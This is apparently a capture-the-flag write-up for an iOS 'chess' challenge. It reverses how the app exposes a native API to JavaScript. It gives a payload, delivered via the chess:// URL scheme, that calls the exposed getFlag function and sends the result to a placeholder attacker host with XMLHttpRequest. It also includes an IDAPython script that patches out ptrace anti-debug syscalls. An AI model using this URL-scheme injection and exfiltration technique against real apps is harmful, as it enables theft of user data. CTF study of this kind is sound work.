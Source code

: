 ![image.png](http://img.l1near.top/630350565b093.png)

Let's follow up with `injectScriptInterface` to see the key logic.

![Xnip20220822_175321.png](http://img.l1near.top/Xnip2022-08-22_17-53-21.png)

You can see that the methods of the `WMScriptInterface` class are exported to the js context, and these APIs are placed in the `wmctf` namespace of the global scope.

Then we search in IDA and are surprised to find a function `-[chess.WMScriptInterface _getFlag]`.

![image.png](http://img.l1near.top/630352619b9c1.png)

At this point we learn that we can construct a payload and then invoke the chess client via URL Scheme and execute `wmctf.$_getFlag()` to get the flag.

Construct the js code to generate the Payload.

```javascript
String.prototype.toDataURI = function() {
  return 'data:text/html;,' + encodeURIComponent(this).replace(/[!'()*]/g, escape);
}

function payload() {  
  var xhr = new XMLHttpRequest(); xhr.open('GET', 'http://XXX/test?flag=' + wmctf.$_getFlag(), false); xhr.send();
}

const data = `<script type="application/javascript">(${payload})()<\/script>`.toDataURI()
const url = new URL('chess://x?urlType=web');

url.searchParams.set('url', data);
url.toString()
```

As soon as the URL Scheme is submitted (I wrote a webserver to receive the payload and execute it on the device), it is executed on the device and the flag is sent to the attacker's server.

IDAPython Ptach `svc 0x80`:

```python
import idc
def text_seg_addr_start():
    for seg in Segments():
        if SegName(seg) == '__text':
            addr = hex(SegStart(seg))
            print("text segment address start: " + addr)
            return int(addr[0:-1], 16)
def text_seg_addr_end():
    for seg in Segments():
        if SegName(seg) == '__text':
            addr = hex(SegEnd(seg))
            print("text segment address end: " + addr)
            return int(addr[0:-1], 16)       
start = text_seg_addr_start()
end = text_seg_addr_end()
while start < end:
    m = idc.print_insn_mnem(start)
    n = idc.print_operand(start, 0)
    if m == 'SVC' and n == '0x80':
        # print(idc.GetDisasm(start))
        if idc.print_operand(idc.prev_head(start), 1) == '#0x1A':
            idc.PatchDword(start, 0xD503201F)
            print("patch {} success!".format(hex(start)))
    start += 4
```
